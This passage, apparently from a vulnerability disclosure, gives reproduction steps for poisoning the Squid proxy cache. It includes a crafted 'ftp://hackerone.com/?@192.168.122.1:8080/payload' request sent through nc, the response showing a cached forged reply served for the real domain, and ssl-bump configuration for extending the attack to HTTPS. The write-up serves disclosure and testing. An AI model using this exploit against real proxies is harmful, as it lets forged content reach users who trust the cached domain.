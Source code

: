 ```
Connection: keep-alive

23
Hello! This is from my ftp server.

0
```

The FTP server should have output similar to 
```
<- 150 Here comes data
Passive Connection from: ('192.168.122.97', 51647)
<- Hello! This is from my ftp server.
<- 226 Data sent
-> QUIT
```

4) Now make the request to the actual domain
Notice the X-Cache: HIT header
```
echo -e "GET ftp://hackerone.com/?@192.168.122.1:8080/payload HTTP/1.1\r\n\r\n" |nc <squid hostname> 3128

nc: using stream socket
HTTP/1.1 200 Gatewaying
Server: squid/4.9
Mime-Version: 1.0
Date: Thu, 19 Mar 2020 15:57:04 GMT
Content-Type: text/plain
Last-Modified: Wed, 27 Mar 2019 19:14:54 GMT
Age: 249
X-Cache: HIT from g64
Transfer-Encoding: chunked
Via: 1.1 g64 (squid/4.9)
Connection: keep-alive

23
Hello! This is from my ftp server.

0

```

You will get the output from the cached response instead of the real response from hackerone.com or whichever domain you're poisoning 

### Poisoning HTTPS Cache in Squid-4.7
To repro the HTTPS poisoning you need to configure Squid to cache SSL request. This involves generating a root cert, and inserting some config options. https://wiki.squid-cache.org/Features/DynamicSslCert Has steps on how to achieve this. Below is what I added to my config. You will need to change the prefixes to match your system. 

Replace the existing http_port 3128 entry with the following:
```
http_port 3128 ssl-bump \
       generate-host-certificates=on dynamic_cert_mem_cache_size=4MB \
       cert=/home/j1/h4x/squid/certs/myCA.pem
sslcrtd_program /home/j1/h4x/squid/ship/squid-4.7/libexec/security_file_certgen -s /home/j1/h4x/squid/ship/squid-4.7/var/lib/ssl_db -M 4MB
```
